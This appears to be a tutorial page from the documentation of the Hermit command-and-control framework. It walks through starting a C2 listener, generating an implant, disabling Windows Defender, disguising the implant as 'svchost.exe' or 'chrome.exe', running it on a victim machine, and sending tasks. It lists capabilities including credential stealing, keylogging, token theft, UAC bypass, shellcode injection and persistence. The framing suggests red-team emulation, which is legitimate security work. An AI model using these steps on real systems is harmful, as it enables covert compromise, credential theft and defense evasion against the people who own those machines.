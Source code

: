 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly. Also we recommend temporarily turning off real-time protection of **Windows Defender** as it is likely to be detected by Windows Defender.

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)  

It will take some time for generation (about 3-10 minutes. It depends on your machine spec).
After that, the implant is saved under `$HOME/.hermit/server/listeners/https-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.  

### Custom Domain Setting (Optional)

If we choose the domain for the listener URL such as `https://example.evil:12345` instead of the ip address such as `https://172.12.34.56:12345`, we need to add the domain to the `C:\Windows\System32\drivers\etc\hosts` on the Windows victim machine for connecting back to our C2 server.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  assembly        Load and execute .NET assembly.
  cat             Read contents of a file.
  cd              Change the working directory.
  cmd             Execute arbitrary system command.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process.
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  find            Find files.
  group ls        List local groups.
  groups          Alias for 'group ls'.
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  pe              Load and execute PE (Portable Executable) file.
  persist         Establish persistence for implant.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg query       Enumerate subkeys for the specified path.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process.
  sleep           Set sleep time (seconds) between requests from beacon.
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  uac             Bypass UAC and start another session.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           Alias for 'user ls'.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After a few seconds, if the task is successful, we can see the task results with the `task results` or `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
# or
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After emulation, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.

## Attack Further...

If you'd like to escalate privilege, please try [the Tutorial: Privilege Escalation with Implant Beacon](./privilege-escalation-with-implant-beacon.md).
